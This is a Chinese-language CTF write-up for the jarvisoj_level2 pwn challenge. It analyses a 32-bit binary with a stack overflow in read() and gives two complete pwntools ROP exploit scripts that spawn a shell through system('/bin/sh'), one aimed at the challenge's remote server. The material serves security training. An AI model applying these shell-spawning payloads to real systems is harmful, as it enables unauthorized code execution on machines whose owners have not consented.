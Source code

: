 # jarvisoj_level2

## IDA 逆向分析

![](https://ms-study.oss-cn-chengdu.aliyuncs.com/Binary_study/RE/Snipaste_2021-10-20_19-30-17.png)

程序很简单，直接得到了**漏洞位置**，函数名有明显提示，进一步查看`vulnerable_function`函数

![](https://ms-study.oss-cn-chengdu.aliyuncs.com/Binary_study/RE/Snipaste_2021-10-20_19-32-01.png)

由上图可以看到，`read`函数存在栈溢出。函数中有`system`函数，但是没有调用`/bin/sh`



## 程序检查

由下图可知该程序为32位的，且不具有栈保护和没有开启地址随机化。

![](https://ms-study.oss-cn-chengdu.aliyuncs.com/Binary_study/RE/Snipaste_2021-10-20_19-34-26.png)

## 漏洞分析

有上述信息可知，该程序存在**栈溢出漏洞**，且程序中已经存在可利用的`system`函数，但是缺少`/bin/sh`，所以我们可以通过设置`gadget`,设置弹跳至`read`函数，并设置其参数，将`/bin/sh`字符串写入,然后弹跳至`system`函数，并使用上述传入的字符串作为参数来获取权限

- 32程序参数通过栈传递，因此需要注意调整栈顶
- `read`函数有三个参数，分别是 `0`表示从输入流读入，第二个参数事输入地址，第三个参数是长度
- `ROPgadget --binary jarvisoj_level2 --only "pop|ret"`  查找对应的gadget
- 写入`/bin/sh`，需要在程序中找到一个可写入的位置，一般是`.bss`段---->用于存储定义却未初始化的数据，一般具有可读可写权限

![](https://ms-study.oss-cn-chengdu.aliyuncs.com/Binary_study/RE/Snipaste_2021-10-20_19-41-08.png)

上下两张图，对应说明了`.bss`段的特点

![](https://ms-study.oss-cn-chengdu.aliyuncs.com/Binary_study/RE/Snipaste_2021-10-20_19-41-44.png)

## exp

- 将`/bin/sh`写入`.bss`段，然后进行调用

```python
from os import system
from elftools.common.utils import bytelist2string
from pwn import *

context(os = 'linux',arch = 'i386',log_level='debug')
io = process("/home/always/PWN/jarvisoj_level2")
e =ELF("/home/always/PWN/jarvisoj_level2")
system_plt_addr = e.plt["system"]
read_plt_addr = e.plt["read"]
offset = 136 + 4
buff = 0x0804A02C     #.bss段起始地址；只要是在.bss段中任意足够长度地址即可

pop_esi_edi_ebp_ret = 0x08048519
payload = flat(
    [offset*b'A',read_plt_addr,pop_esi_edi_ebp_ret,0,buff,11,system_plt_addr,0,buff])
#payload 原理 是先调用read函数，此时从栈顶 
io.sendafter(b"Input:",payload)
io.sendline('/bin/sh')
io.interactive()
```



上述payload栈的变化大概如下图所示：

![](https://ms-study.oss-cn-chengdu.aliyuncs.com/Binary_study/RE/Snipaste_2021-10-20_20-10-13.png)



- 在本题中实际上具有`/bin/sh`字符串，可直接利用

该字符串地址为`0x0804A024`

```python
from os import system
from elftools.common.utils import bytelist2string
from pwn import *

context(os = 'linux',arch = 'i386',log_level='debug')
#io = process("/home/always/PWN/jarvisoj_level2")
io = remote("node4.buuoj.cn",25582)
e =ELF("/home/always/PWN/jarvisoj_level2")
system_plt_addr = e.plt["system"]
offset = 136 + 4
bin_sh_addr =0x0804A024
payload = flat(
    [offset*b'A',system_plt_addr,0,bin_sh_addr])
io.sendafter(b"Input:",payload)
io.interactive()
```

